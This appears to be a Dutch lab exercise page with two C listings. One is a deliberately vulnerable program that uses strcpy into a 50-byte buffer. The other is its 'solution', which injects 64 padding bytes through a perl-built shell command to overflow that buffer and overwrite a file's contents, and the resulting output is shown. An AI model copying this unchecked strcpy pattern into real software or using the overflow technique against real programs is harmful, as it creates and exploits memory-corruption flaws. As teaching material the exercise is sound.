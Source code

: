 \begin{lstlisting}
oplossing.c
------------

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char outputString[] = "Naj ed Nam\t8 000\nnajrda saalk\t10\nNet Nuiq\t5";

int main(int argc, int argv[]){
	char command[200] = "./gokkenvoorlosers \"$(perl -e 'print \"\x41\"x64 . \"";

	strcat(command, outputString);
	strcat(command, "\"')\"");

	system(command);
}

OUTPUT:
	cat gokverslaafden.txt
		Naj ed Nam		8 000
		najrda saalk	10
		Net Nuiq		5
\end{lstlisting}

\begin{lstlisting}
gokkenvoorlosers.c
------------------

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/file.h>

int main(int argc, char *argv[]){
	if(argc != 2){
		printf("Gebruik: %s <bestandsnaam>\n",argv[0]);
		exit(0);
	}

	schrijfBestand(argv[1]);

}

int schrijfBestand(char *bestandsnaam){
	char output[200];
	char naam[50];

	strcpy(output, "Docu Ment -10 000");

	strcpy(naam, bestandsnaam);	

	FILE *fp;
	fp=fopen("gokverslaafden.txt", "w");
	fprintf(fp, "%s\n", output);

	fclose(fp);
}
\end{lstlisting}